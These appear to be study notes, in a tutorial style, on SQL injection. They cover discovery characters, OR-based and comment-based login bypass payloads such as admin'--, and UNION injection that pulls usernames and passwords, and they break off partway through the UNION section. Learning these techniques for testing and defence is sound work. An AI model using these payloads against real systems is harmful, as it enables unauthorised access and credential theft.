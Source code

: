     - Blind
        - Boolean Based
        - Time Based
    - Out-of-band
- In this only Union based In bound

### Injections

- Subverting Query Logic
    - Authentication Bypass
        - SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
- SQLi Discovery
    - to check if webpage is vulnerable to SQLi
    - add payload after username
    - ‘ “ # ; )
    - Either comment or even number of quotes
- OR injection
    - AND would be evaluated before OR
    - true is `'1'='1’`
    - remove last (‘)
    - `admin' or '1'='1`
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/fae9aafb-71e2-4d50-92a6-0d2bb57d3cca/94487252-e9af-44a9-b2ce-603de7a1140b/Untitled.png)
    
- If username not known
    - To successfully log in once again, we will need an overall true query. This can be achieved by injecting an OR condition into the password field, so it will always return true. Let us try `something' or '1'='1` as the password.
    - `' or '1' = '1`
    
    ### Using Comments
    
    - `--` `#`
    - `SELECT username FROM logins; -- Selects usernames from the logins table` space after double dash
    - Note: In SQL, using two dashes only is not enough to start a comment. So, there has to be an empty space after them, so the comment starts with (-- ), with a space at the end. This is sometimes URL encoded as (--+), as spaces in URLs are encoded as (+). To make it clear, we will add another (-) at at the end (-- -), to show the use of a space character.
    - `SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'`
    - Tip: if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol.
    - Auth bypass with comments
        - Injection `admin'--`
        - `SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';`
        - Check another example

### Union Clause

- injecting entire SQL queries executed along with the original query
- The Union clause is used to combine results from multiple SELECT statements
- `SELECT * FROM ports UNION SELECT * FROM ships;`
- A UNION statement can only operate on SELECT statements with an equal number of columns
- `SELECT * FROM products WHERE product_id = 'user_input'`
- Injection `SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '`
- Un-even Columns
    - Junk data if we only one column
    - `SELECT "junk" from passwords`
    - `SELECT 1 from passwords`